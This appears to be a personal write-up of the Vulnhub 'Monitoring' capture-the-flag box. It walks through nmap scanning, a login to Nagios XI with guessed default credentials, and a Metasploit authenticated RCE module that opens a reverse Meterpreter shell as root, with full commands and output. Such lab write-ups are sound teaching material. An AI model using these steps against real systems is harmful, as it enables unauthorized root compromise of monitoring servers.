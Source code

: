 ```yaml
---
title: Vulnhub - Monitoring
description: My writeup on Monitoring box.
categories:
 - vulnhub
tags: vulnhub nagios metasploit
---
```


![](https://3.bp.blogspot.com/-WvEbEYfcXkM/WfzbFrCIClI/AAAAAAAALBA/PcLISE3UWJ4RjRYmINybOdk0rY2RZt04ACLcBGAs/s1600/Nagios-XI.jpg)

You can find the machine there > [Monitoring](https://www.vulnhub.com/entry/monitoring-1,555/){:target="_blank"}

## Summary

This was a pretty easy box, i had some troubles finding the right exploit for it. It's all about exploiting a vulnerable version of Nagios XI this will provide us a root shell. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.9
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-18 12:01 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.9)
Host is up (0.00010s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
389/tcp  open  ldap
443/tcp  open  https
5667/tcp open  unknown
MAC Address: 00:0C:29:DF:7A:FC (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.19 seconds
$ nmap -p 22,25,80,389,443,5667 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-18 12:02 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.9)
Host is up (0.00052s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b8:8c:40:f6:5f:2a:8b:f7:92:a8:81:4b:bb:59:6d:02 (RSA)
|   256 e7:bb:11:c1:2e:cd:39:91:68:4e:aa:01:f6:de:e6:19 (ECDSA)
|_  256 0f:8e:28:a7:b7:1d:60:bf:a6:2b:dd:a3:6d:d1:4e:a4 (ED25519)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-09-08T17:59:00
|_Not valid after:  2030-09-06T17:59:00
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Nagios XI
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-09-08T18:28:08
|_Not valid after:  2030-09-06T18:28:08
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
5667/tcp open  tcpwrapped
```

Lot of stuff, http/https display the same website Nagios XI platform. Nagios is an open-source computer-software application that monitors systems, networks etc. I've 0 experience with nagios and nagios pentesting. If we press the "Access Nagios XI" button will redirect us to login panel.

![](https://i.imgur.com/NBOoRgI.png)

Tried lot of stuff, `admin:admin` - `guest:guest` etc nothing. I googled "nagios default credentials" and i found that the default username is `nagiosadmin` so by guessing i found the password is `admin`. :sweat_smile:

So we're in using this creds `nagiosadmin:admin`:

![](https://i.imgur.com/wrAr3Fa.png)

## Shell as root

I wasted too much time finding a way to execute php code or something, but no luck. Then i noticed the version of nagios in the down left corner :

![](https://i.imgur.com/k5yjqcD.png)

I googled "nagios xi 5.6 exploit" and i found a metasploit one! [exploit](https://www.exploit-db.com/exploits/48191){:target="_blank"} Let's fire it up!

```
$ service postgresql start; msfconsole
                         
...

msf5 > search type:exploit name:nagios

Matching Modules
================

   #  Name                                                          Disclosure Date  Rank       Check  Description
   -  ----                                                          ---------------  ----       -----  -----------
   0  exploit/linux/http/nagios_xi_authenticated_rce                2019-07-29       excellent  Yes    Nagios XI Authenticated Remote Command Execution
```

Let's add the right settings.

```
msf5 > use exploit/linux/http/nagios_xi_authenticated_rce

...

msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set PASSWORD admin
PASSWORD => admin
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set RHOSTS 192.168.1.9
RHOSTS => 192.168.1.9
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set LHOST eth0
LHOST => 192.168.1.14
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.14:4444 
[*] Found Nagios XI application with version 5.6.0.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting for the plugin to request the final payload...
[*] Sending stage (3012516 bytes) to 192.168.1.9
[*] Meterpreter session 1 opened (192.168.1.14:4444 -> 192.168.1.9:51506) at 2020-09-18 12:24:27 +0300
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: no-user @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > shell
Process 13165 created.
Channel 1 created.
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@ubuntu:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Perfect! Let's read the flag now.

```
root@ubuntu:~# cat proof.txt
SunCSR.Team.3.af6d45da1f1181347b9e2139f23c6a5b
```

Fun box, learnt some new things! :)
